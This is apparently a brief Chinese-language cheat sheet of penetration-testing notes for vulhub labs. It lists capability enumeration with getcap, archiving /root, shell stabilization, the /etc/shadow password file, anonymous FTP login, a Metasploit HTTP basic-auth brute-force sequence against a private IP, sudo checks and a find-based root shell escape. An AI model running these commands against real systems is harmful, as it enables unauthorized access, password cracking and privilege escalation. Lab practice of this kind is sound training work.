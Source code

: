 ```yaml
---
title: vulhub
date: 2020-12-30 23:32:36
tags:
---
```


```
sbin/getcap -r / 2>/dev/null 查看有无进行cap的设置 查看忽略对读和搜索的限制，百度查看之
```

```
tar -zcvf /tmp/root.tar /root
```

```
stty raw -echo 是补全键和方向键恢复作用。
```

```
/etc/shadow 这个神器的文件 用户的密码信息
```

```
getcap -r / 2>/dev/null 这个和上面相容的 神器的文件处理，可以忽视对于读和搜索的限制
```

ftp匿名访问

```
账号ftp 密码ftp
```

基础认证的爆破

```
msfconsole
use /auxiliary/scanner/http/http_login
show options
set AUTH_URI /Secure/ 网站子目录
set STOP_ON_SUCCESS true
set PASS_FILE /root/Reconforce 密码字典
set PASS_FILE /root/Reconforce/pass
set rhosts 192.168.0.141
exploit
```

```
sudo -l 
groups
常用检测脚本3
```

```
find . -exec "/bin/bash"
```

